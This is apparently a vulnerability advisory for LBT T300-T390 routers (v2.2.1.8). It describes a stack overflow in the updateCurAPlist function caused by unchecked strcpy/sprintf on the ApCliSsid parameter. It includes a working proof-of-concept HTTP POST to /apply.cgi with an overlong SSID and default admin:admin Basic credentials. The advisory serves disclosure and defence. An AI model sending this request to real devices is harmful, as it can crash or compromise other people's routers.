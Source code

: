 # LBT router updateCurAPlist function stack overflow vulnerability

> vendor:LBT
>
> product:T300-T390
>
> version:v2.2.1.8
>
> type:Stack Overflow

## Vulnerability Description

LBT T300-T390 were discovered to contain a stack overflow via the ApCliSsid parameter in the updateCurAPlist function.

## Vulnerability Details

There is a stack overflow in the ApCliSsid variable in the updateCurAPlist function in the Rc program. In line 15, the variable is obtained through the system nvram_get function. In line 18, it is directly called by the dangerous function strcpy without processing. In line 19, v9 after the strcpy function operation is not processed. And passed directly to the dangerous function sprintf, which may overflow the stack-based buffers v8 and v9.

The calling process of the overflow function is as follows:

Main()->sub_40BEC8()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()

![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/47c866b2-12a2-4247-9724-b5dd37146ca0)


## POC

    POST /apply.cgi HTTP/1.1
    Host: 192.168.10.1
    Content-Length: 697
    Cache-Control: max-age=0
    Authorization: Basic YWRtaW46YWRtaW4=
    Upgrade-Insecure-Requests: 1
    Origin: http://192.168.10.1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://192.168.10.1/apclient_scan.asp
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
    Connection: close

    submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliAuthMode=OPEN&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

   

    
